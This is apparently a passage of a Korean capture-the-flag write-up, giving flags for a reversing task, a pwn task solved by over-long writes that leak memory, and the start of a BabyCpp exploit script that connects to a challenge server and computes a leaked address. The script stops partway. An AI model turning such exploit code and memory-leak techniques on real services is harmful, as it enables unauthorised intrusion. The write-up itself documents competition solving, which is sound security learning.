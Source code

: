 단순 브포하면 된다.

flag : dimi{ca1cul4t3d_inv3rs3?_0r_us3d_z3?_0h_y0u_ar3_4_F0Ol_;)}




## Pwn

```
서버 바이너리에는 정상적으로 플래그가 있습니다
nc 121.170.91.17 9901
DOWNLOAD
```



```
youngjoo@ubuntu16 init$ nc 121.170.91.17 9901
Do you want to do?
[R]ead
[W]rite
[E]xit
>>> W
length: 1000
hQ��4�����bVdimi{A110cAt3_1s_$o_1mp0rt@n7}@@$��,%b�N砪�bV0H��4H@$���<�����bVJ!�6���U���bV@@$��J!K9�(J!{�SԸX@$��hQ��4����4���bV@@$��ڧ�bV8@$��eO$��jO$���O$���O$���O$��!�:�����d@��bV8	���4   ���bV
                                     �
���A$���O$���A$���,%b�N�ձ���|��x86_64Do you want to do?
```

단순히 write 해주면 풀린다. 이거 모르고 쉘따고 좋아했는데,,

flag : dimi{A110cAt3_1s_$o_1mp0rt@n7}



### BabyCpp  ( 880p )

```
nc 121.170.91.17 7777
DOWNLOAD
```



```python
from ntpwn import *

#s = process('./babycpp')
s = remote('121.170.91.17',7777)

def go(menu):
	s.sendlineafter('>>> ',menu)

sc = list()
sc.append('tracemalloc on')
sc.append('c')
sc = makesc(sc)

#gdb.attach(s,sc)
go('S')
go('N')
s.recvuntil('Shell address: 0x')
leak = int(s.recvline()[:-1],16) - 0x1998 + 0x202d10
log.info("LEAK : " + hex(leak))

go('V')
go('N')

```
